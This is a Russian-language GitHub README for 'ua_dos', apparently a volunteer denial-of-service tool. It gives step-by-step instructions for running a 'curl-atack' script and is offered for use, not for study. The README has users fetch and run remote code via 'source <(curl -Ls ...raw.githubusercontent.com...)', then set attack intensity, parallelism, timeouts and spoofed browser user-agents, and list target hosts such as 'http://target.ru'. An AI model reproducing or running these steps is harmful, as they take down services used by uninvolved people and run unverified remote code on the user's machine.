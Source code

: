 # ua_dos
Dockerfile не рабочий.
ntct заброшен.
С *curl-atack* можно работать.

1. Создай файл с любым названием *(Например: "curl-atack")*.
2. Запиши в файл две строки:
```
#!/bin/bash
source <(curl -Ls https://raw.githubusercontent.com/bro2020/ua_dos/main/curl-atack)
```
3. Сделай файл исполняемым, выполнив команду:
```
chmod +x "название файла"
(Например: chmod +x curl-atack)
```
4. Запусти файл:
```
./"название файла"
(Например: ./curl atack)
```
Загрузка таргетов пошла, через несколько секунд отобразится информация, которая будет обновляться.

Если хочешь переопределить параметры, для увеличения/уменьшения интенсивности или увличения/уменьшения нагрузки на оборудование ...

1. Создай файл `curl-atack-env.txt`
2. Запиши в него следующие строки:
```
rcount=$((RANDOM%10+7)) # количетво итераций, после которого принудительно завершаются процессы curl
sq1=$((RANDOM%3+1)) # количество параллельно выполняемых циклов
sq2=$((RANDOM%3+2)) # количество прогонов в каждом из параллельных циклов (1 итерация)
t1=$((RANDOM%7+7)) # таймают перед принудительным завершением процессов curl)
t2=$((RANDOM%2+1)) # таймаут(скорость) запуска проходов в параллельно выполняемых циклах
t3=$((RANDOM%3+1)) # таймаут после завершения всех проходов в параллельных циклах
t4='15' # таймаут автоматического непрерывного завершения процессов curl в каждом проходе

UA1='Mozilla/5.0 (Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA2='Mozilla/5.0 (Macintosh; Intel Mac OS X 12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA3='Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA4='Mozilla/5.0 (Linux; Android 10) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.78 Mobile Safari/537.36'
UA5='Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0'
```
3. Меняй их по вкусу. Сюда же можно вписать свои таргеты в виде задания переменных:
```
H1='http://target.ru'
...
H50='https://target.ru'
```
